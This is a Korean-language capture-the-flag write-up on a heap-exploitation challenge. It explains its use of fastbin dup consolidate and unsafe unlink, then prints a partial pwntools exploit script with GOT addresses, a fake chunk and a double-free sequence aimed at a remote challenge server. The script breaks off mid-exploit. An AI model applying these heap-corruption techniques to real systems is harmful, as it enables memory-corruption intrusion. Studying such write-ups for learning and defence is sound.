 
### frist

- fastbin dup consolidate라는 기법을 알아내서, double free느낌처럼 동일한 chunk를 두 번 할당 가능하게 . 근데 문제는 이 문제도 망할 calloc을 쓴다는거지. 때문에 일반적으로 double free를 하여 fd값을 조작하는 방법으로는 익스가 불가능하고, 때문에 unsafe unlink를 이용해보아야겠다고 생각함.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/57749aec-4422-4d95-b493-aa606e04dfbb/71dbf6cd-534a-444e-99b6-87efb683c177/Untitled.png)

해당 bss영역을 살펴보면 

```
# bss fake fd : 0x6020b8 -> 이러면 여기부터 chunk시작일 때, 
# small bss가 fd, bk의 역할을 할 수 있음
# small bss : 0x6020d0
# big bss : 0x6020c0
# huge bss : 0x6020c8
```

으로 정해져있다. 여기를 통해 어떻게든 해보자..

### 전체 exploit code

```python
from pwn import *
#p = process('./sf9')
p = remote('182.213.154.20', 21008)
e = ELF('./sf9')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def alloc(size, content) :
    sleep(0.2)
    p.sendlineafter('\n', '1')
    p.sendlineafter('\n', str(size))
    p.sendafter('\n', content)
    sleep(0.2)

def delete(index) :
    sleep(0.2)
    p.sendlineafter('\n', '2')
    p.sendlineafter('\n', str(index))
    sleep(0.2)

def renew(index, content) :
    sleep(0.2)
    p.sendlineafter('\n', '3')
    p.sendlineafter('\n', str(index))
    p.sendafter('\n', content)

free_got = 0x602018
read_got = 0x602040
puts_got = 0x602020
puts_plt = 0x400760
atoi_got = 0x602080

fake = ''
fake += p64(0) # prev size
fake += p64(0) # size
fake += p64(0x6020b8)
fake += p64(0x6020c0)
fake += p64(0x20) 

##### fastbin dup consolidate ####
alloc(1, 'aaaa')
alloc(2, 'bbbb')
delete(1)
alloc(3, 'cccc')
delete(1)
```